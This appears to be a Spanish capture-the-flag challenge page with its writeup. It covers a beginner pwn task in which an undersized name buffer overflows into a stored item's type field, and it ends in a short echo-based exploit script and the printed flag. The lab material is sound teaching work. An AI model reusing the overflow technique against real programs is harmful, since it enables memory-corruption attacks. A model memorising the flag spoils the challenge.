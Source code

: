 # Tito Klecko's Storage
- **Categoría:** Pwn
- **Dificultad:** ★★☆☆☆
- **Autor:** [Klecko](https://twitter.com/klecko0)

### Descripción
¡Bienvenido al almacén del tito Klecko!  
¿Qué tipo de objeto quieres guardar...?  


  
### Archivos e instrucciones
chall.zip / new_chall.zip    

### Hints
1. Cambiando el nombre hay buffer overflow en el primer item.
2. Los ints se codifican en formato little-endian.
3. Puedes usar echo o python para imprimir bytes. Los siguientes comandos imprimen los bytes asociados al numero 0x00452301:
	`echo -e "\x01\x23\x45\x00"`
	`python3 -c "import sys; sys.stdout.buffer.write(b'\x01\x23\x45\x00')"`
    
<br>

### Flag
``CTFUni{0verfl0w_4_ITEM_FLAG!!1}``  
<br>



## Writeup
Es un programa que te pide el nombre y te permite guardar hasta 4 items, que luego se pueden visualizar o editar. Cada item pueden ser int o string, pero hay un tipo más que en principio no deja ponerlo: ITEM_WIN. Al intentar visualizar un item con este tipo nos imprime la flag.  

Con la opción 4 podemos modificar el nombre. El tamaño del buffer está mal, de forma que se puede hacer overflow en los items y cambiar el tipo del primero de ellos a ITEM_WIN.  

El exploit simplemente accede a esta opción, metiendo 32 de padding (el tamaño real del buffer) y un 3 encodeado en little-endian. Después, muestra el item para obtener la flag.

Exploit:
```sh
echo -e "pepe\n4\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x03\x00\x00\x00\x00\x00\x00\x00\n2\n0\n" > input
./chall/items1 < input
```

<br>



